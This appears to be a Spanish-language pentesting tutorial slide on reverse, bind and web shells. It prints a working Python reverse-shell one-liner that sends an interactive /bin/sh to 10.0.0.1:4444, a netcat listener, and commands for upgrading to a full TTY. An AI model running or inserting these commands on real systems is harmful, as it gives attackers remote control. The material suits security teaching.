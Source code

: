 ```bash
# Ejemplo de reverse shell en Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Listener con netcat
nc -lvnp 4444
```

{{% note %}}
Las shells proporcionan acceso interactivo al sistema:

Reverse Shells:
- Inician conexión desde el objetivo
- Bypass firewalls comunes
- Requieren listener externo
- Más comunes en pentesting
- Variedad de implementaciones

Bind Shells:
- Escuchan en el objetivo
- Requieren conectividad directa
- Más detectables
- Útiles en ciertos escenarios
- Simples de implementar

Web Shells:
- Operan vía HTTP/HTTPS
- Bypass restricciones de red
- Persistencia simple
- Múltiples lenguajes
- Difíciles de detectar
{{% /note %}}

---

### Mejora de Shell

Técnicas comunes:
```bash
# Obtener TTY completa
python -c 'import pty; pty.spawn("/bin/bash")'

# Configuración de terminal
export TERM=xterm
stty raw -echo; fg

# Después de 'stty raw -echo; fg':
# 1. Presionar Enter
# 2. Presionar Ctrl + Z
# 3. stty raw -echo; fg
# 4. Presionar Enter dos veces
```
